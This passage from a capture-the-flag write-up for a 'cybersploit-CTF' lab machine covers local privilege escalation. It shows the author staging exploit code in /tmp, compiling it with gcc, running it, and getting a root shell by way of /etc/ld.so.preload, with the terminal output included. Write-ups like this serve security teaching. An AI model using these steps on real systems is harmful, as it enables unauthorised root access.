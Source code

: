 ![Screenshot from 2024-04-13 13-02-29](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/a3054dc5-dc99-47aa-9d10-a2a2c5413709)

  
  

We copied the exploit code and saved it in the `/tmp` directory as `exploit.c`.

  

```bash

itsskv@cybersploit-CTF:/tmp$ nano exploit.c

```

  

Choosing the `/tmp` directory for this purpose is strategic because it typically has permissions that allow for file creation and execution by users, making it a common location for staging files during exploitation.

  

After saving the exploit code, we compiled it using `gcc` and granted execution permissions to the resulting binary file using `chmod +x`:

  

```bash

itsskv@cybersploit-CTF:/tmp$ gcc exploit.c -o exploit

itsskv@cybersploit-CTF:/tmp$ chmod +x exploit

```

- `gcc exploit.c -o exploit`: Compiles the C source code (`exploit.c`) into an executable named `exploit`.

- `chmod +x exploit`: Grants execute permissions to the compiled exploit binary.

  

Executing the compiled exploit triggered the exploitation process, which involved spawning threads, mounting, and creating necessary files such as `/etc/ld.so.preload` and a shared library, ultimately granting us `root` access:

  

```bash

itsskv@cybersploit-CTF:/tmp$ ./exploit

spawning threads

mount #1

mount #2

child threads done

/etc/ld.so.preload created

creating shared library

#

```
